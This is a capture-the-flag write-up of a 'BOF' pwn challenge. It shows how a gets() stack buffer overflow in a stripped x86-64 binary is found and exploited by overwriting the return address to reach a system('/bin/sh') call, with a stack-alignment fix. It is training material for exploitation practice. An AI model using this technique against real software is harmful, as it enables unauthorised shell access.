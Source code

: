 # PWN

## 👻 BOF (solved)

-   Score: 100, Solves: 189

### Problem

[bof](bof/bof)

### Solution

1.  `file bof`

    ```shell
    ➜ file bof
    bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=378b751f1056b9026ef636c05439f4550feb8154, stripped
    ```

2.  `checksec` ➜ **disabled CANARY**

    ![bof-checksec](../img/bof-checksec.png)

3.  `ida pro` -> `fn + F5` main

    ```c
    __int64 __fastcall main(__int64 a1, char **a2, char **a3)
    {
      char v4; // [rsp+0h] [rbp-30h]
    
      sub_40069A(a1, a2, a3);
      puts(&s);
      gets(&v4);
      return 0LL;
    }
    ```

    $\because$ `gets`

    $\therefore$ buffer overflow

4.  distance to `old rbp = 0x30` (not exactly the length of char buffer)

     $\therefore$  `payload = nonsense * 0x30 + (8 bytes to overwrite rbp) + (target return address)`

    | ![](../img/bof-main.png) | ![](../img/bof-main2.png) |
    | -------- | -------- |

5.  find `target return address`

    Target: `system("\bin\sh")`

    ![bof-system](/Users/mindy/Desktop/AIS3-2020-pre-exam/img/bof-system.png)

    `return to 0x400687` $\because$ function sub_400687 call `system("\bin\sh")`

    $\therefore$  `payload = ‘A’ * (0x30 + 8) + 0x400687`

6.  use `gdb` to test the payload

    ![bof-gdb](../img/bof-gdb.png)

    Crack because the `rsp` value was not 16 byte padded (hex representation didn’t end with `0`)

    $\therefore$  `payload = ‘A’ * (0x30 + 8) + ret + 0x400687`

7.  Get shell.

    ➜ find flag

    ![bof-final](../img/bof-final.png)


